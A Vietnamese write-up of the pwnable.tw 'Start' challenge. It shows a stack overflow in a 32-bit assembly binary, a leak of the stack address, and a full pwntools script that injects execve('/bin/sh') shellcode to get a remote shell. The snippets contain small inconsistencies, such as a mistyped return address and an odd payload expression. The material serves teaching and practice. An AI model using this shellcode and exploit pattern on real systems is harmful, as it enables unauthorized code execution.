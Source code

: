 # [Start] [[pwnable.tw](https://pwnable.tw/)]

>Đây là bài đầu tiên trong chuỗi các bài ```pwn``` (Mình dự định làm các ```chall``` về ```pwn``` trong thời gian sắp tới để học hỏi thêm @.@ và viết ```writeup``` chia sẻ những thứ mình học được).
>
>Trong writeup mình viết theo cách thức mà mình hiểu có thể chưa đúng. Mong mọi người góp ý thêm.


>Just a start.
>
>nc chall.pwnable.tw 10000
>
>[start](https://pwnable.tw/static/chall/start)

Let's start

Cũng như khi làm các ```chall``` về ```RE``` mình thường check kiểu file và thử tìm kiếm một vài strings và thử chạy để có thể có thêm một vài thông tin định hướng cách làm blah blah...

Check kiểu file:

![File type]({{ site.url }}/assets/start_file_type.PNG)

Liệt kê strings:

![Enumrate String]({{ site.url }}/assets/start_strings.PNG)

Chạy thử:

![Run]({{ site.url }}/assets/start_run.PNG)


Qua việc check kiểu file mình có thể thấy đây là file ```ELF 32bit``` (Cái này mình chỉ dùng để mở cho đúng IDA hoy ^^)

Tiếp theo liếc qua các string và để ý đến 2 string đầu là:

```hCTF:hthe hart hs sthLet'```

và

```
start.s
```

Dựa vào string đầu tiên có thể thấy string này bị đảo ngược(4 kí tự) so với string được in ra khi chạy thử nên có thể lờ mờ đoán rằng string này được push vào stack theo kiểu một số ```DWORD```

Đại loại như sau:

Giả sử ta có strings ```"Let's start the CTF:"``` thường sẽ sử dụng các hàm ```copy``` để gán nó cho một biến trong stack

Nhưng cũng có 1 cách khác là sử dụng push đề copy nó vào stack như sau:


```c
push    ':FTC'
push    ' eht'
push    ' tra'
push    'ts s'
push    ''teL'
```

Điều này có thể giải thích vì sao liệt kê string lại bị ngược như vậy

Tiếp đó là xâu ```start.s``` Dựa vào xâu này mình đoán người ra đề code bằng ```asm``` trên linux

OK đó là tất cả những gì mình có thể thấy khi kiểm tra và chạy thử file

Load chall vào IDA để xem tiếp vậy

![IDA loaded]({{ site.url }}/assets/start_ida.PNG)

Có thể thấy đoạn push string chuẩn như chúng ta nhận định ban đầu

Chương trình được chia làm 2 đoạn là ```_start``` và ```_exit```

Khi bắt đầu ```_start``` ta thấy có 2 lệnh push là

```c
push    esp
push    offset _exit
```

Để đó chưa rõ làm gì

Đọc tiếp thấy ```chall``` này sử dụng ngắt ```int 80h``` để gọi các ```system call``` trong linux kernel

với EAX = 4 ```sys_write``` sẽ được gọi

với EAX = 3 ```sys_read``` sẽ được gọi

Ở ```_exit``` EAX = 1 ```sys_exit``` sẽ được gọi

Chi tiết có thể tham khảo các syscall [tại đây](https://syscalls.kernelgrok.com/)

Bây giờ xem xem có thể khai thác được tại đâu. Với các dạng bài cần ```nc``` vào server như này thì dự là ```flag``` sẽ được đặt trên server. Player sẽ khai thác và đọc flag (nghe EZ v~)

Trong bài này ta thấy. ```sys_read``` cho phep đọc vào tận 0x3C kí tự trong khi ở đoạn tiếp theo chương trình chỉ cộng ```esp``` với 0x14 rồi return

Nếu ta nhập một chuỗi > 0x14 kí tự thì sao???

Bummmm.....! Stack overflow và sau khi lệnh return chương trình sẽ nhảy đến một chỗ nào đó và thực hiện tiếp

Như vậy. cần 2 phần để có thể thực hiện đoạn code mà mình mong muốn với chương trình này

Một là địa chỉ để sau lệnh ```retn``` chương trình quay lại đó thực thi

Hai là đoạn code mà bạn mong muốn chương trình sẽ thực hiện

Với 2 mình tìm được một đoạn shellcode(23 bytes) trên mạng. Có thể tham khảo [tại đây](http://shell-storm.org/shellcode/files/shellcode-827.php)

Giờ ta chỉ cần tìm được đỉa chỉ trả về đề run đoạn shellcode là xong (Nghe vẫn EZ =)) ).

sau ```sys_read``` chương trình cộng ```esp``` với 0x14 - Đây chính là vùng chứa ```offset _exit``` để thực thi sau ```retn```

Vậy nếu ghi đè địa chỉ này thành ```0x08048087``` thì chương trình sẽ quay lại ```0x08048087``` và gọi ```sys_write``` một lần nữa in ra giá trị mà 4 byte đầu tiên chính là giá trị của esp trong lệnh ```push esp``` ở đầu chương trình sau nó nó tiếp tục gọi ```sys_read```. =)) Như vậy ta có thể làm theo 2 bước như sau:

**B1:** Lấy giá trị của ```esp```

**B2:** Chèn shellcode để gọi ra "/bin/sh"

(Nghe tiếp tục EZ)

Để thực hiện **B1** ta cần đoạn payload như sau

```python
    payload = 20 * 'a' + '\x87\x90\x04\x08'
```

Sau đó sẽ xử lý giá trị nhận được và có được ```esp```

Tiếp tục **B2** payload sẽ là:

```python
payload2 = '20' * a + <địa chỉ esp + 0x14> + shelcode
```

fullcode:

```python
from pwn import * 

host = "chall.pwnable.tw"
port = 10000

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

con = remote(host, port)
print con.recv(1024)

get_sp_string = 20 * 'a' + '\x87\x80\x04\x08'
con.send(get_sp_string)
sp_addr = u32(con.recv(1024)[0:4])

real_shellcode = 20 * 'a' + p32(sp_addr + 20) + shellcode
con.send(real_shellcode)
con.interactive()
con.close()
```
